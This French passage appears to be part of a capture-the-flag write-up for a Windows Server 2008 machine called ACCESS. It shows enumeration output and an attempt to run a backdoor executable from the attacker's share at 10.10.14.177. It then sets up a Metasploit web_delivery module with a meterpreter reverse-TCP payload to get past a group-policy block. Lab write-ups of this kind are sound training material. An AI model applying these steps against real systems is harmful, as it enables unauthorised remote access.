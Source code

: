 DIDN'T READ LOL
---------------

On arrive donc sur ce système avec les utilisateurs et les infos suivantes :  

```plain
User accounts for \\ACCESS

-------------------------------------------------------------------------------
Administrator            engineer                 Guest
security
The command completed successfully.

Host Name:                 ACCESS
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
Hotfix(s):                 110 Hotfix(s) Installed
```

Un *tasklist* nous indique qu'à première vue aucun antivirus ne tourne sur la machine et d'ailleurs l'upload d'une backdoor quelconque ne semble pas poser de problèmes.  

On est toutefois bloqué par une GPO si on tente d'exécuter un exe :  

```plain
C:\Users\security>\\10.10.14.177\public\backd.exe
This program is blocked by group policy. For more information, contact your system administrator.
```

C'est une restriction en mousse (tm) très vite bypassée via PowerShell en utilisant le module *web\_delivery* de *Metasploit* (ce module génère une ligne de commande utilisant au choix Powershell, Python, PHP, etc qui va télécharger et exécuter du code) :  

```plain
msf exploit(multi/script/web_delivery) > show options

Module options (exploit/multi/script/web_delivery):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  10.10.14.177     yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)

Payload options (windows/x64/meterpreter/reverse_tcp_rc4):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   EXITFUNC     process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST        10.10.14.177     yes       The listen address (an interface may be specified)
   LPORT        4444             yes       The listen port
   RC4PASSWORD  msf              yes       Password to derive RC4 key from

Exploit target:

   Id  Name
   --  ----
   2   PSH

msf exploit(multi/script/web_delivery) > exploit -j
[*] Exploit running as background job 0.

```
